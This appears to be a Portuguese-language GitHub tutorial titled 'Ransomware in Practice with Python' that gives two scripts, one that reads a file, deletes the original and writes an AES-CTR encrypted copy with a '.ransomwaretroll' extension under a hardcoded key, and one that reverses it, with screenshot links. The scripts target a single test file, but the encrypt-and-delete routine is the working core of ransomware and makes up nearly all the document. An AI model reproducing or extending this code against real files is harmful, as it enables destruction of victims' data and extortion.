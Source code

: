 # Ransomware na Prática com Python

Arquivo encrypt.py (para criptografar a mensagem):

Código:
```python
import os
import pyaes

# Função para criptografar o arquivo
def encrypt_file(file_name, key):
    # Verificar se o arquivo existe
    if not os.path.exists(file_name):
        print(f"O arquivo {file_name} não existe.")
        return

    # Abrir o arquivo a ser criptografado
    with open(file_name, "rb") as file:
        file_data = file.read()

    # Remover o arquivo original
    os.remove(file_name)

    # Criação do objeto AES para criptografia
    aes = pyaes.AESModeOfOperationCTR(key)

    # Criptografar o conteúdo do arquivo
    crypto_data = aes.encrypt(file_data)

    # Gerar o nome do novo arquivo criptografado
    new_file_name = f"{file_name}.ransomwaretroll"

    # Salvar o arquivo criptografado
    with open(new_file_name, "wb") as new_file:
        new_file.write(crypto_data)

    print(f"Arquivo criptografado salvo como {new_file_name}.")

# Definir chave de criptografia
key = b"testeransomwares"
file_name = "teste.txt"

# Chamar a função para criptografar o arquivo
encrypt_file(file_name, key) 


![alt text](10.png)

Arquivo decrypt.py  (para descriptografar a mensagem):

Código:

``` Python
import os
import pyaes

# Função para descriptografar o arquivo
def decrypt_file(file_name, key):
    # Verificar se o arquivo criptografado existe
    if not os.path.exists(file_name):
        print(f"O arquivo {file_name} não existe.")
        return

    # Abrir o arquivo criptografado
    with open(file_name, "rb") as file:
        file_data = file.read()

    # Criação do objeto AES para descriptografia
    aes = pyaes.AESModeOfOperationCTR(key)

    # Descriptografar os dados do arquivo
    decrypt_data = aes.decrypt(file_data)

    # Remover o arquivo criptografado
    os.remove(file_name)

    # Criar e salvar o arquivo descriptografado
    new_file_name = file_name.replace(".ransomwaretroll", "")  # Remover o sufixo
    with open(new_file_name, "wb") as new_file:
        new_file.write(decrypt_data)

    print(f"Arquivo descriptografado salvo como {new_file_name}.")

# Definir chave de descriptografia
key = b"testeransomwares"
file_name = "teste.txt.ransomwaretroll"

# Chamar a função para descriptografar o arquivo
decrypt_file(file_name, key) ```


![alt text](11.png)

Mensagem de texto:

![alt text](12.png)

Encryptando a mensagem:

![alt text](13.png)

Arquivo descriptografado salvo como teste.txt:

![alt text](15.png)




